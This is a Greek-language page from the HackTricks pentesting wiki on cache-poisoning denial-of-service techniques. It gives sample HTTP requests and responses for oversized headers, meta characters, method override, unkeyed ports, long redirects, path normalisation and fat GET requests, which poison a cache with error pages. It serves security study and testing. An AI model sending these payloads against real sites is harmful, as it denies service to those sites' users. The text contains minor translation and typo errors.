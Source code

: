 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Σε αυτή τη σελίδα μπορείτε να βρείτε διάφορες παραλλαγές για να προσπαθήσετε να κάνετε τον **web server να απαντήσει με σφάλματα** σε αιτήματα που είναι **έγκυρα για τους cache servers**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Στείλτε ένα αίτημα με μέγεθος κεφαλίδας μεγαλύτερο από αυτό που υποστηρίζει ο web server αλλά μικρότερο από αυτό που υποστηρίζει ο cache server. Ο web server θα απαντήσει με μια 400 απάντηση που μπορεί να αποθηκευτεί στην cache:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

Στείλτε μια κεφαλίδα που περιέχει μερικούς **βλαβερούς μεταχαρακτήρες** όπως και . Για να λειτουργήσει η επίθεση, πρέπει πρώτα να παρακάμψετε την κρυφή μνήμη.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Ένας κακώς διαμορφωμένος τίτλος θα μπορούσε να είναι απλώς `\:` ως τίτλος.

Αυτό θα μπορούσε επίσης να λειτουργήσει αν σταλούν απροσδόκητες τιμές, όπως μια απροσδόκητη Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Ορισμένες ιστοσελίδες θα επιστρέψουν έναν κωδικό κατάστασης σφάλματος αν **δουν ορισμένα συγκεκριμένα headers** στην αίτηση όπως με το _X-Amz-Website-Location-Redirect: someThing_ header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Αν ο διακομιστής υποστηρίζει την αλλαγή της μεθόδου HTTP με κεφαλίδες όπως `X-HTTP-Method-Override`, `X-HTTP-Method` ή `X-Method-Override`. Είναι δυνατόν να ζητηθεί μια έγκυρη σελίδα αλλάζοντας τη μέθοδο έτσι ώστε ο διακομιστής να μην την υποστηρίζει, με αποτέλεσμα μια κακή απάντηση να αποθηκευτεί στην cache:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Αν η θύρα στην κεφαλίδα Host αντικατοπτρίζεται στην απόκριση και δεν περιλαμβάνεται στο κλειδί της cache, είναι δυνατόν να την ανακατευθύνουμε σε μια μη χρησιμοποιούμενη θύρα:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Όπως στο παρακάτω παράδειγμα, το x δεν αποθηκεύεται στην cache, οπότε ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί τη συμπεριφορά της απόκρισης ανακατεύθυνσης για να κάνει την ανακατεύθυνση να στείλει μια διεύθυνση URL τόσο μεγάλη που να επιστρέφει ένα σφάλμα. Στη συνέχεια, οι άνθρωποι που προσπαθούν να αποκτήσουν πρόσβαση στη διεύθυνση URL χωρίς το uncached x key θα λάβουν την απόκριση σφάλματος:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Κανονικοποίηση πεζών χαρακτήρων της κεφαλίδας host**

Η κεφαλίδα host θα πρέπει να είναι ανεξάρτητη από την περίπτωση, αλλά ορισμένες ιστοσελίδες αναμένουν ότι θα είναι πεζά, επιστρέφοντας σφάλμα αν δεν είναι:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Κανονικοποίηση διαδρομής**

Ορισμένες σελίδες θα επιστρέψουν κωδικούς σφάλματος στέλνοντας δεδομένα URLencode στη διαδρομή, ωστόσο, ο διακομιστής cache θα URLdecode τη διαδρομή και θα αποθηκεύσει την απόκριση για τη URLdecoded διαδρομή:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Ορισμένοι διακομιστές cache, όπως η Cloudflare, ή διακομιστές ιστού, σταματούν τα GET αιτήματα με σώμα, οπότε αυτό θα μπορούσε να εκμεταλλευτεί για να αποθηκεύσει μια μη έγκυρη απάντηση:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Αναφορές

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
